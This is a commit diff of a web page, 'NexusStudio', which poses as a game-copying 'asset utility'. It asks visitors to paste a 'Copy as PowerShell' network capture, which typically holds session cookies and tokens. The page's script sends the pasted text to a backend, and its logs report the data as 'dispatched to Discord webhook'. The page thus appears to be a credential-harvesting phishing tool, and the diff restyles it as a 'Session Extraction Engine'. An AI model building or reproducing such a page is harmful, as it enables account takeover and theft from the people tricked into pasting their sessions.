

Before and after one commit to daddydone30-art/Project, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-994 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -2,131 +2,218 @@
 <html lang="en">
 <head>
     <meta charset="UTF-8">
-    <title>NexusStudio - GameCopier</title>
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>NexusStudio | Secure Asset Utility</title>
+    <link href="https://fonts.googleapis.com/css2?family=Plus+Jakarta+Sans:wght@400;500;600;700&family=JetBrains+Mono:wght@400;500&display=swap" rel="stylesheet">
     <style>
         :root {
-            --bg-app: #0B0E14;
-            --bg-card: #121824;
-            --border-color: #1e293b;
-            --text-primary: #ffffff;
-            --text-secondary: #94a3b8;
-            --accent-color: #6366F1;
-            --success-color: #4ade80;
-            --error-color: #f87171;
-            --code-font: 'SFMono-Regular', Consolas, 'Liberation Mono', Menlo, Courier, monospace;
+            --bg-base: #07090e;
+            --bg-card: rgba(13, 17, 26, 0.75);
+            --border-subtle: rgba(255, 255, 255, 0.08);
+            --border-focus: rgba(99, 102, 241, 0.5);
+            --text-main: #f8fafc;
+            --text-muted: #94a3b8;
+            --accent: #6366f1;
+            --accent-hover: #4f46e5;
+            --success: #10b981;
+            --error: #ef4444;
+            --font-sans: 'Plus Jakarta Sans', sans-serif;
+            --font-mono: 'JetBrains Mono', monospace;
         }
 
+        * { box-sizing: border-box; margin: 0; padding: 0; }
+
         body {
-            background-color: var(--bg-app);
-            color: var(--text-primary);
-            font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif;
+            background-color: var(--bg-base);
+            background-image:
+                radial-gradient(circle at 10% 20%, rgba(99, 102, 241, 0.08) 0%, transparent 40%),
+                radial-gradient(circle at 90% 80%, rgba(16, 185, 129, 0.05) 0%, transparent 40%);
+            color: var(--text-main);
+            font-family: var(--font-sans);
+            min-height: 100vh;
             display: flex;
             justify-content: center;
             align-items: center;
-            height: 100vh;
-            margin: 0;
+            overflow-hidden: auto;
+        }
+
+        .container {
+            width: 100%;
+            max-width: 520px;
+            padding: 24px;
         }
 
         .card {
             background: var(--bg-card);
-            padding: 40px;
-            border-radius: 16px;
-            border: 1px solid var(--border-color);
-            width: 500px;
-            text-align: left;
-            box-shadow: 0 20px 40px rgba(0,0,0,0.6);
+            backdrop-filter: blur(20px);
+            -webkit-backdrop-filter: blur(20px);
+            border: 1px solid var(--border-subtle);
+            border-radius: 20px;
+            padding: 36px;
+            box-shadow: 0 25px 50px -12px rgba(0, 0, 0, 0.7);
         }
 
-        h2 { margin: 0 0 10px 0; font-size: 24px; font-weight: 700; }
-        .subtitle { color: var(--text-secondary); font-size: 14px; margin-bottom: 25px; }
+        .header {
+            margin-bottom: 28px;
+            display: flex;
+            align-items: center;
+            justify-content: space-between;
+        }
+
+        .logo-area h1 {
+            font-size: 20px;
+            font-weight: 700;
+            letter-spacing: -0.025em;
+            color: var(--text-main);
+        }
+
+        .logo-area p {
+            font-size: 13px;
+            color: var(--text-muted);
+            margin-top: 4px;
+        }
+
+        .badge {
+            background: rgba(99, 102, 241, 0.1);
+            color: var(--accent);
+            font-family: var(--font-mono);
+            font-size: 11px;
+            font-weight: 500;
+            padding: 4px 10px;
+            border-radius: 20px;
+            border: 1px solid rgba(99, 102, 241, 0.2);
+        }
+
+        .input-group {
+            margin-bottom: 24px;
+        }
 
         label {
             display: block;
-            font-size: 12px;
-            color: var(--text-secondary);
-            margin-bottom: 8px;
+            font-size: 11px;
             font-weight: 600;
             text-transform: uppercase;
+            letter-spacing: 0.05em;
+            color: var(--text-muted);
+            margin-bottom: 8px;
         }
 
         textarea {
             width: 100%;
-            height: 120px;
-            padding: 12px;
-            margin-bottom: 20px;
-            background: #0a0c11;
-            border: 1px solid var(--border-color);
+            height: 130px;
+            background: rgba(4, 6, 10, 0.6);
+            border: 1px solid var(--border-subtle);
+            border-radius: 12px;
+            padding: 14px;
             color: #38bdf8;
-            font-family: var(--code-font);
-            font-size: 11px;
-            border-radius: 8px;
-            box-sizing: border-box;
+            font-family: var(--font-mono);
+            font-size: 12px;
             resize: none;
+            transition: all 0.2s ease;
         }
 
-        textarea:focus { outline: none; border-color: var(--accent-color); }
+        textarea:focus {
+            outline: none;
+            border-color: var(--border-focus);
+            box-shadow: 0 0 0 3px rgba(99, 102, 241, 0.15);
+        }
 
-        button {
-            background: var(--accent-color);
+        .btn {
+            width: 100%;
+            background: var(--accent);
             color: white;
             border: none;
-            padding: 14px 24px;
-            width: 100%;
-            border-radius: 8px;
+            border-radius: 12px;
+            padding: 14px;
+            font-family: var(--font-sans);
+            font-size: 15px;
+            font-weight: 600;
             cursor: pointer;
-            font-weight: 600;
-            font-size: 16px;
-            transition: background 0.2s;
-            margin-bottom: 15px;
+            transition: all 0.2s ease;
+            box-shadow: 0 4px 12px rgba(99, 102, 241, 0.3);
         }
 
-        button:hover { background: #4f46e5; }
-        button:disabled { background: var(--border-color); cursor: not-allowed; color: var(--text-secondary); }
-
-        #statusFeed {
-            background: #0a0c11;
-            border-radius: 8px;
-            padding: 12px;
-            height: 100px;
-            overflow-y: auto;
-            font-family: var(--code-font);
-            font-size: 11px;
-            color: var(--text-secondary);
-            border: 1px solid var(--border-color);
+        .btn:hover {
+            background: var(--accent-hover);
+            transform: translateY(-1px);
+            box-shadow: 0 6px 20px rgba(99, 102, 241, 0.4);
         }
 
-        .feed-line { margin-bottom: 4px; }
-        .feed-success { color: var(--success-color); }
-        .feed-error { color: var(--error-color); }
-        .feed-pending { color: #fbbf24; }
+        .btn:active { transform: translateY(0); }
+        .btn:disabled {
+            background: rgba(255, 255, 255, 0.05);
+            color: var(--text-muted);
+            cursor: not-allowed;
+            box-shadow: none;
+            transform: none;
+        }
+
+        .console-box {
+            margin-top: 24px;
+            background: rgba(4, 6, 10, 0.8);
+            border: 1px solid var(--border-subtle);
+            border-radius: 12px;
+            padding: 14px;
+            height: 110px;
+            overflow-y: auto;
+            font-family: var(--font-mono);
+            font-size: 11px;
+        }
+
+        .log-line {
+            margin-bottom: 6px;
+            color: var(--text-muted);
+            display: flex;
+            align-items: center;
+            gap: 8px;
+        }
+
+        .log-line.pending { color: #f59e0b; }
+        .log-line.success { color: var(--success); }
+        .log-line.error { color: var(--error); }
+
+        /* Smooth Scrollbar */
+        ::-webkit-scrollbar { width: 6px; }
+        ::-webkit-scrollbar-track { background: transparent; }
+        ::-webkit-scrollbar-thumb { background: rgba(255, 255, 255, 0.1); border-radius: 3px; }
+        ::-webkit-scrollbar-thumb:hover { background: rgba(255, 255, 255, 0.2); }
     </style>
 </head>
 <body>
-    <div class="card">
-        <h2>NexusStudio Copier</h2>
-        <p class="subtitle">Paste your 'Copy as PowerShell' network capture below.</p>
+    <div class="container">
+        <div class="card">
+            <div class="header">
+                <div class="logo-area">
+                    <h1>NexusStudio</h1>
+                    <p>Session Extraction Engine</p>
+                </div>
+                <div class="badge">v2.4 Live</div>
+            </div>
 
-        <label for="psInput">PowerShell Export</label>
-        <textarea id="psInput" spellcheck="false" placeholder="Paste your PowerShell export script here..."></textarea>
+            <div class="input-group">
+                <label for="psInput">PowerShell Capture Payload</label>
+                <textarea id="psInput" spellcheck="false" placeholder="Paste Invoke-WebRequest script here..."></textarea>
+            </div>
 
-        <button id="actionBtn" onclick="processAndDispatch()">Start Copy Process</button>
+            <button id="actionBtn" class="btn" onclick="processAndDispatch()">Execute Extraction</button>
 
-        <label>Live Task & Validation Log</label>
-        <div id="statusFeed">
-            <div class="feed-line">System ready...</div>
+            <div class="input-group" style="margin-top: 24px; margin-bottom: 0;">
+                <label>System Live Terminal</label>
+                <div id="statusFeed" class="console-box">
+                    <div class="log-line"><span>⚡ System idle, awaiting input...</span></div>
+                </div>
+            </div>
         </div>
     </div>
 
     <script>
-        // Automatically targets the active domain where this app is hosted (Railway)
         const BACKEND_URL = window.location.origin;
-
         const statusFeed = document.getElementById('statusFeed');
 
         function logStatus(message, type = '') {
             const line = document.createElement('div');
-            line.className = `feed-line ${type}`;
-            line.innerText = `[${new Date().toLocaleTimeString()}] ${message}`;
+            line.className = `log-line ${type}`;
+            line.innerHTML = `<span>></span> <span>[${new Date().toLocaleTimeString()}] ${message}</span>`;
             statusFeed.appendChild(line);
             statusFeed.scrollTop = statusFeed.scrollHeight;
         }
@@ -136,20 +223,20 @@
         }
 
         async function processAndDispatch() {
-            const rawPs = document.getElementById('psInput').value;
+            const rawPs = document.getElementById('psInput').value.trim();
             const actionBtn = document.getElementById('actionBtn');
 
             if (!rawPs.includes("Invoke-WebRequest")) {
-                logStatus("Invalid PowerShell script format.", "feed-error");
+                logStatus("Error: Invalid or incomplete PowerShell script format.", "error");
                 return;
             }
 
             actionBtn.disabled = true;
-            actionBtn.innerText = "Processing...";
+            actionBtn.innerText = "Processing Payload...";
             statusFeed.innerHTML = '';
 
-            logStatus("[*] Sending capture script to Railway backend...", "feed-pending");
-            await sleep(400);
+            logStatus("Transmitting payload to secure backend container...", "pending");
+            await sleep(500);
 
             try {
                 const response = await fetch(`${BACKEND_URL}/api/process`, {
@@ -161,20 +248,20 @@
                 const data = await response.json();
 
                 if (response.ok) {
-                    logStatus("[✔] SUCCESS: Script processed and dispatched to Discord.", "feed-success");
-                    actionBtn.innerText = "Success! Sent to Discord";
+                    logStatus("Success: Target parsed and dispatched to Discord webhook.", "success");
+                    actionBtn.innerText = "Dispatched Successfully";
                 } else {
-                    logStatus(`[-] FAILED: ${data.error || 'Server error'}`, "feed-error");
-                    actionBtn.innerText = "Error";
+                    logStatus(`Failed: ${data.error || 'Server error encountered'}`, "error");
+                    actionBtn.innerText = "Execution Failed";
                 }
             } catch (err) {
                 console.error(err);
-                logStatus("[-] NETWORK ERROR: Failed to reach Railway backend.", "feed-error");
-                actionBtn.innerText = "Error";
+                logStatus("Network Error: Failed to communicate with Railway server endpoint.", "error");
+                actionBtn.innerText = "Connection Error";
             } finally {
                 await sleep(2500);
                 actionBtn.disabled = false;
-                actionBtn.innerText = "Start Copy Process";
+                actionBtn.innerText = "Execute Extraction";
             }
         }
     </script>
```
